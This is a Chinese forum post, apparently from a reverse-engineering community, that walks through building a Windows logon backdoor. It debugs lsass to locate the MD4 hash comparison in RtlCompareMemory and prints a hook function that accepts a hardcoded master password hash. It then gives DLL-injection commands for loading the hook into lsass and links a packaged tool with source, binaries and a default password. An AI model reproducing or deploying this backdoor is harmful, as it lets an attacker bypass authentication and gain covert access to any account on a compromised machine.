

# 利用 IAT hook 实现 windows 通用密码后门

> 原文：[`www.pediy.com/kssd/pediy10/65391.html`](https://www.pediy.com/kssd/pediy10/65391.html)

利用 IAT hook 实现 windows 通用密码后门  
  
windows 有通用密码吗？  
去问比尔大叔吧。  
  
先不管是不是真的有，我们可以自己实现一个这样的后门。  
  
先简单介绍一下 windows 登陆过程中的一些过程。  
winlogon 进程用 gina.dll 获取用户名和密码，通过 LPC 传给 lsass 进程。  
然后 lsass 进程调用默认认证包 msv1\_0.dll 来验证密码的对错。  
而 msv1\_0 则从 SAM 中获得用户的信息，包括密码的哈希。  
  
要实现这样一个后门，首先要找到登陆验证这一系列函数的最底层的一个，然后在那里做手脚。  
很明显，这个最底层的函数在 lsass 进程的 msv1\_0.dll 模块中。  
  
lsass 调用 msv1\_0.dll 的是这个函数：  

代码:

```
msv1\_0!LsaApLogonUserEx2

```

[LsaApLogonUserEx2 in MSDN](http://msdn.microsoft.com/en-us/library/aa378257\(VS.85\).aspx)  
  
那我们就应该调试 lsass 进程然后在 msv1\_0!LsaApLogonUserEx2 下断点。  
这里我使用 windbg 和 vmware 并利用 dbgsrv 进行远程的用户态调试。  
[`blogs.msdn.com/spatdsg/archiv...27/507265.aspx`](http://blogs.msdn.com/spatdsg/archive/2005/12/27/507265.aspx)  
上面 Spat 在 blog 中介绍了如何用 dbgsrv 调试（Debugging LSA via dbgsrv.exe）。  
在虚拟机（被调试端）运行  
代码:

```
dbgsrv.exe -t tcp:port=1234,password=spat

```

然后在调试端运行  
代码:

```
windbg.exe -premote tcp:server=192.168.1.102,port=1234,password=spat

```

然后选择附加 lsass 进程。  
但这里我们不能登陆之后再运行 dbgsrv，那样 dbgsrv 就被关掉了，所以我利用 windows 的任务计划让 dbgsrv 开机就运行起来。  
  
虚拟机启动后，dbgsrv 也起来了，然后用 windbg 连上并附上 lsass 进程。  
在下了断点 msv1\_0!LsaApLogonUserEx2 后，让 lsass 继续运行。  
然后登陆，果然 windbg 断下来了。  
  
这个时候给大家介绍 windbg 的一个强劲的命令，那就是 wt，它能所有的记录函数调用关系，一直记录到 ret，具体用法请看 windbg 帮助。  
我猜 wt 是单步运行，所以很慢。  
但是 wt 输出的文本很多，太难看了，于是我写了个 python 脚本把 wt 的输出转成一个 TreeCtrl，附图：  
  
大家注意看我鼠标点上的那个函数：ntdll!RtlCompareMemory。  
经过调试我发现这个函数就是我要找的那个“最底层的函数”。  
代码:

```
SIZE\_T 
  RtlCompareMemory(
    IN CONST VOID  \*Source1,
    IN CONST VOID  \*Source2,
    IN SIZE\_T  Length
    );

```

[RtlCompareMemory in MSDN](http://msdn.microsoft.com/en-us/library/ms802989.aspx)  
并且我还发现了验证密码时这个函数 3 个参数的细节，  
Source1 是从 SAM 中取出的用户密码的 Unicode 形式的 md4 哈希，  
Source2 是用户输入的密码的 Unicode 形式的 md4 哈希，  
Length 总是 16，因为 md4 的哈希就是 16 位。  
很容易我写出了下面这个替代的函数：  
代码:

```
int WINAPI MyRtlCompareMemory(void \*a, void \*b, int len) {
    if (len == 16 && pRtlCompareMemory(PASSWD\_HASH, b, len) == 16)
        return 16;
    return pRtlCompareMemory(a, b, len);
}

```

其中 pRtlCompareMemory 是全局变量，是真正的 RtlCompareMemory 的地址，PASSWD\_HASH 是通用密码的哈希。  
使用 MyRtlCompareMemory 来 hook 掉 RtlCompareMemory，就可以实现预定的功能了。  
如果要比较的是 16 位的，并且第二段内存与我们的哈希一样那就直接放行，不管第一段内存是什么。  
也许有朋友会问，你这是 hook 了 msv1\_0 模块内所有调用 RtlCompareMemory 的地方，不会出错吗？  
放心吧，哪有那么巧，要比较的是 16 位的而且第二段内存又和我们的哈希一模一样？  
  
要 hook 这个函数有很多方法，  
我选择了最懒的一种，IAT hook+dll 注入。  
于是我写了一个小工具来注入 dll：DllInject  
代码:

```
C:\\Documents and Settings\\cly\\桌面\\bin>InjectDll.exe
InjectDll v0.1
Inject/UnInject a dll file to a process, by cly, at 20080522
Usage:
    InjectDll.exe (-i | -u | -U) pid filename
    -i: Inject
    -u: UnInject once
    -U: UnInject at all

```

passdoor.dll 是要注入到 lsass 进程的 dll，这个 dll 在 DllMain 中实现了 IAT hook，很土的技术了，就不贴代码了，网上一搜一箩筐。  
  
然后我又写了一个小工具：pdconfig  
其实就是改 passdoor.dll 中的哈希，以免要换密码是又要重新编译 passdoor.dll。  
  
使用方法：  
代码:

```
InjectDll.exe -i pid\_of\_lsass full\_path\_of\_passdoor.dll

```

卸载方法：  
代码:

```
InjectDll.exe -U pid\_of\_lsass full\_path\_of\_passdoor.dll

```

[`clyfish.googlepages.com/passdoor.rar`](http://clyfish.googlepages.com/passdoor.rar)  
这里是本文中相关工具的源码以及编译好的二进制文件。  
其中包括 InjectDll.exe, passdoor.dll 和 pdconfig.exe，所有代码均使用 MingW gcc4.2.1 编译。  
郁闷，不能传附件。 

帮你上传上来保存.  
  
学习 windbg 了..感谢

上传的附件
|  || passdoor.rar \[解压密码：pediy\]   
 |

Oh year，可以传附件了   
  
这是文中提到的那个 python 脚本，需要 wxpython 支持。  
  
还有，默认的 passdoor.dll 中的密码是 123456，可以用 pdconfig 改。

上传的附件
|  || wt\_tree.rar  
 |